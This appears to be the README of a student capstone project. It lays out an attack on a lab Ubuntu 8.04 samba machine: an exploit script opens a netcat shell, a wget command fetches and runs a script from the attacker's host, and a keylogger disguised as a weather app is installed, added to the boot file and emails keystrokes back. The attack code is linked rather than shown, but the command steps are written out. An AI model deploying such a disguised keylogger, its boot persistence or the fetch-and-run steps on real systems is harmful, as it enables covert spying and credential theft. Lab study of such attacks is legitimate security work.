 # Capstone

## Scripts
- [exploit script](exploit/exploit.sh)
- [run keylogger](exploit/run.sh)
- [add keylogger to boot file](exploit/rewriteBoot.sh)
- [keylogger](exploit/weather.py)
## Binary
[A seemingly checking weather keylogger binary](exploit/weather)
## Email
A temporary Email address is needed so that keylogger can send message back
## Virtual Machines

### Attacker

- Linux based machine with python on it (Kali-Linux is recommended)
- Unix based machine

### Victim

- [Ubuntu 8.04 Desktop with samba installed](https://drive.google.com/file/d/1bCviB84Nn4B2H-JRrIk0tRF7tXcdrCtE/view?usp=sharing)

## How To Run

In the Kali-Linux, copy all the bash script files and binary file into the same folder

```bash
> ls # should see only 4 files
exploit.sh rewriteBoot.sh  run.sh weather
```

Start attack by:

```bash
chmod +x exploit.sh # give permission
./exploit.sh <Target IP> <Kali-Linux IP> # run exploit script
```

Give it seconds, if nothing showing after typing the command, give it another try.

Inside the netcat shell:

```bash
wget http://<Kali-Linux IP>:8564/run.sh
chmod +x run.sh
./run.sh <Kali-Linux IP> <Email Address> <Server IP>
```

